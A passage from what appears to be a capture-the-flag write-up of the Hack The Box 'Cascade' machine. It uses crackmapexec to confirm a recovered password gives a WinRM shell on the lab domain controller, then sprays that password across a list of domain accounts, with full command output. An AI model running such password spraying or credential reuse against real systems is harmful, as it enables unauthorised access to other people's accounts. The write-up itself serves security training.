 [![debug](https://0xdfimages.gitlab.io/img/image-20200330090649649.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20200330090649649.png)

Based on the line in the SQLite DB, this password, `w3lc0meFr31nd`, likely
pairs with the account arksvc.

### WinRM

`crackmapexec` shows that not only does the password work, but will provide a
WinRM shell:

    
    
    root@kali# crackmapexec winrm 10.10.10.182 -u arksvc -p w3lc0meFr31nd
    WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
    WINRM       10.10.10.182    5985   CASC-DC1         [+] CASCADE\arksvc:w3lc0meFr31nd (Pwn3d!)
    

Had I not know the account that was associated with this password, I could
have used `crackmapexec` with a list of users:

    
    
    root@kali# crackmapexec winrm 10.10.10.182 -u users -p w3lc0meFr31nd --continue-on-success
    WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\CascGuest:w3lc0meFr31nd "Failed to authenticate the user CascGuest with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [+] CASCADE\arksvc:w3lc0meFr31nd (Pwn3d!)
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\s.smith:w3lc0meFr31nd "Failed to authenticate the user s.smith with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\r.thompson:w3lc0meFr31nd "Failed to authenticate the user r.thompson with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\util:w3lc0meFr31nd "Failed to authenticate the user util with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\j.wakefield:w3lc0meFr31nd "Failed to authenticate the user j.wakefield with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\s.hickson:w3lc0meFr31nd "Failed to authenticate the user s.hickson with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\j.goodhand:w3lc0meFr31nd "Failed to authenticate the user j.goodhand with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\a.turnbull:w3lc0meFr31nd "Failed to authenticate the user a.turnbull with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\e.crowe:w3lc0meFr31nd "Failed to authenticate the user e.crowe with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\b.hanson:w3lc0meFr31nd "Failed to authenticate the user b.hanson with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\d.burman:w3lc0meFr31nd "Failed to authenticate the user d.burman with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\BackupSvc:w3lc0meFr31nd "Failed to authenticate the user BackupSvc with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\j.allen:w3lc0meFr31nd "Failed to authenticate the user j.allen with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\i.croft:w3lc0meFr31nd "Failed to authenticate the user i.croft with ntlm"
    